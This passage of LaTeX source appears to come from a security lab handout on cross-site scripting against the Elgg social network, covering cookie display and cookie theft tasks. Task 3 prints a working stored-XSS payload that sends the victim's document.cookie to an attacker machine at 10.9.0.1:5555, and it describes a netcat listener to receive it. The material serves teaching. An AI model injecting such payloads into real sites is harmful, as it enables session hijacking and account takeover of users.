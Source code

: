 \subsection{Task 2: Posting a Malicious Message to Display Cookies}

The objective of this task is to embed a JavaScript program in your 
{\tt Elgg} profile, such that when another user views your profile,
the user's cookies will be displayed in the alert window.
This can be done by adding some additional code to
the JavaScript program in the previous task:
\begin{lstlisting}
<script>alert(document.cookie);</script> 
\end{lstlisting}



\subsection{Task 3: Stealing Cookies from the Victim's Machine}

In the previous task, the malicious JavaScript code written by 
the attacker can print out the
user's cookies, but only the user can see the cookies, not the 
attacker. In this task, the attacker wants the JavaScript code 
to send the cookies to himself/herself.
To achieve this, the malicious JavaScript code needs to 
send an HTTP request to the attacker, with the cookies appended to 
the request.

We can do this by having the malicious JavaScript insert an {\tt $<$img$>$} tag with
its {\tt src} attribute set to the attacker's machine. When the JavaScript inserts
the {\tt img} tag, the browser tries to load the image from the URL in
the {\tt src} field; this results in an HTTP GET request sent to the attacker's
machine. The
JavaScript given below sends the cookies to the port 5555 of the
attacker's machine (with IP address {\tt 10.9.0.1}), where the attacker has a TCP server
listening to the same port.  

\begin{lstlisting}
<script>document.write('<img src=http://10.9.0.1:5555?c=' 
                       + escape(document.cookie) + '   >'); 
</script> 
\end{lstlisting}


A commonly used program by attackers is \texttt{netcat} (or \texttt{nc}) , which, if running with
the \texttt{"-l"} option, becomes a TCP server that listens for a connection on the specified
port. This server program basically prints out whatever is sent by the client and sends to the
client whatever is typed by the user running the server. Type the command below to listen on
port \texttt{5555}:

